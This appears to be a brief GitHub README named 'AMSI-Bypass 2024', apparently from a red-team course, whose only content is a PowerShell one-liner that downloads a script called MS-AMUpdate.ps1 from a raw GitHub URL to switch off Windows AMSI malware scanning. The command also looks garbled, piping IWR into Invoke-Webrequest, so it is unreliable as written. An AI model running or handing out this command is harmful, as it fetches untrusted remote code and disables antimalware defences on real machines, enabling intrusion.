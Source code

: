 # AMSI-Bypass 2024

Bypass AMSI from CRTE Journey
## Command
```powershell
IWR "https://raw.githubusercontent.com/0xBugatti/AMSI-Bypass/refs/heads/main/MS-AMUpdate.ps1"|Invoke-Webrequest
```
